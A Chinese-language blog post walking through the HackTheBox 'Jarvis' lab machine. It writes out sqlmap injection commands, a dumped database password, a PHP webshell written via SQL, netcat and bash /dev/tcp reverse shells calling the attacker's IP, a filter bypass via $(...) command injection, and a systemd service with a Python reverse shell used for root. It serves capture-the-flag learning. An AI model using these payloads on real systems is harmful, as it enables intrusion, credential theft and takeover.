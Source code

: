```yaml
---
layout: post
title:  "HackTheBox >_ Jarvis_143"
description: walkthrough
category: HackTheBox
---
```

# Jarvis_143

![image-20200917090838507]({{ site.url }}/assets/Jarvis_143.assets/image-20200917090838507.png)

![image-20200717214657647]({{ site.url }}/assets/Jarvis_143.assets/image-20200717214657647.png)

![image-20200717214536198]({{ site.url }}/assets/Jarvis_143.assets/image-20200717214536198.png)

![image-20200717215821870]({{ site.url }}/assets/Jarvis_143.assets/image-20200717215821870.png)

目录

![image-20200717232409514]({{ site.url }}/assets/Jarvis_143.assets/image-20200717232409514.png)

![image-20200717232514836]({{ site.url }}/assets/Jarvis_143.assets/image-20200717232514836.png)

等都没有发现

在主页rooms下发现了可能存在的注入点

![image-20200717215919758]({{ site.url }}/assets/Jarvis_143.assets/image-20200717215919758.png)

![image-20200717215940132]({{ site.url }}/assets/Jarvis_143.assets/image-20200717215940132.png)

![image-20200717220003423]({{ site.url }}/assets/Jarvis_143.assets/image-20200717220003423.png)

测试注入

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1
```

但是收到了404

尝试页面注入

![image-20200717222441579]({{ site.url }}/assets/Jarvis_143.assets/image-20200717222441579.png)

虽然没有任何回显，但是也没有404,应该是过滤检测了浏览器

尝试使用`--user-agent`参数

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla / 5.0（X11; Linux x86_64; rv：60.0 ）Gecko / 20100101 Firefox / 60.0"
```

![image-20200717223443011]({{ site.url }}/assets/Jarvis_143.assets/image-20200717223443011.png)

成功

使用`--passwors`转储密码

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla / 5.0（X11; Linux x86_64; rv：60.0 ）Gecko / 20100101 Firefox / 60.0" --password
```

![image-20200717223833147]({{ site.url }}/assets/Jarvis_143.assets/image-20200717223833147.png)

```bash
DBadmin:imissyou
```

登录之前的phpadmin

![image-20200717232637876]({{ site.url }}/assets/Jarvis_143.assets/image-20200717232637876.png)

在sql控制台中写入cmdshell

```bash
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd_shell.php"
```

![image-20200718022115866]({{ site.url }}/assets/Jarvis_143.assets/image-20200718022115866.png)

![image-20200718022137394]({{ site.url }}/assets/Jarvis_143.assets/image-20200718022137394.png)

至此获得一个webshell

```bash
http://10.10.10.143/cmd_shell.php?cmd=
```

![image-20200718023554297]({{ site.url }}/assets/Jarvis_143.assets/image-20200718023554297.png)

webshell转shell

```bash
http://10.10.10.143/cmd_shell.php?cmd=nc%20-e%20/bin/sh%2010.10.14.24%201337
```

![image-20200718025816932]({{ site.url }}/assets/Jarvis_143.assets/image-20200718025816932.png)

![image-20200718031257943]({{ site.url }}/assets/Jarvis_143.assets/image-20200718031257943.png)

检查脚本

![image-20200718031422435]({{ site.url }}/assets/Jarvis_143.assets/image-20200718031422435.png)

在脚本其中的一部分发现，可能存在命令注入，

被排除的字符有

```bash
['&', ';', '-', '`', '||', '|']
```

![image-20200718032056988]({{ site.url }}/assets/Jarvis_143.assets/image-20200718032056988.png)

![image-20200718034016888]({{ site.url }}/assets/Jarvis_143.assets/image-20200718034016888.png)

脚本应该是可以进行`ping+系统命令`进行执行，

虽然排除了所有能够附加命令的符号，但是由于ping是可以使用变量的，我们仍然可以对其进行命令注入

例如`ping $(cat ip.txt)`

那么我们就可以使用`ping $(bash)`来直接执行bash

同时利用sudo特性切换用户到pepper

```text
sudo -u pepper ./simpler.py -p
```

但是这样得到的shell并不能正常回显，我们可以在/tmp文件夹下生成一个shell文件，然后在命令注入时执行它。从而获得shell

```bash
echo '#!/bin/bash' > /tmp/evil.sh
echo "bash -i >& /dev/tcp/10.10.14.24/1338 0>&1" >> /tmp/evil.sh
chmod +x /tmp/evil.sh
sudo -u pepper ./simpler.py -p
> $(/tmp/evil.sh)
```

![image-20200718043218194]({{ site.url }}/assets/Jarvis_143.assets/image-20200718043218194.png)

![image-20200718043245340]({{ site.url }}/assets/Jarvis_143.assets/image-20200718043245340.png)

![image-20200718044426579]({{ site.url }}/assets/Jarvis_143.assets/image-20200718044426579.png)

查找suid

```bash
find / -perm -4000 2>/dev/null
```

![image-20200718043750025]({{ site.url }}/assets/Jarvis_143.assets/image-20200718043750025.png)

systemctl已经设置了suid位并将其作为root用户运行，所以我们可以创建自己的服务，该服务包含rshell，一旦启用，我们应该得到我们的root shell。

kali上新建 evil.service

```bash
[Unit]
Description=pwned

[Service]
ExecStart=/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

[Install]
WantedBy=multi-user.target
```

![image-20200718044619201]({{ site.url }}/assets/Jarvis_143.assets/image-20200718044619201.png)

也可以

```bash
[Service]
Type=oneshot
ExecStart=/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

[Install]
WantedBy=multi-user.target
```

然后将这个服务文件上传到用户的文件夹下，注意，上传到tmp目录是不能正常执行的

然后立即启动服务

```bash
systemctl enable /home/pepper/evil.service --now
```
也可以cp服务到/dev/shm/目录下

systemctl enable /dev/shm/evil.service --now

![image-20200718050252812]({{ site.url }}/assets/Jarvis_143.assets/image-20200718050252812.png)

然后即可在监听的4444端口获得root shell

![image-20200718045943885]({{ site.url }}/assets/Jarvis_143.assets/image-20200718045943885.png)

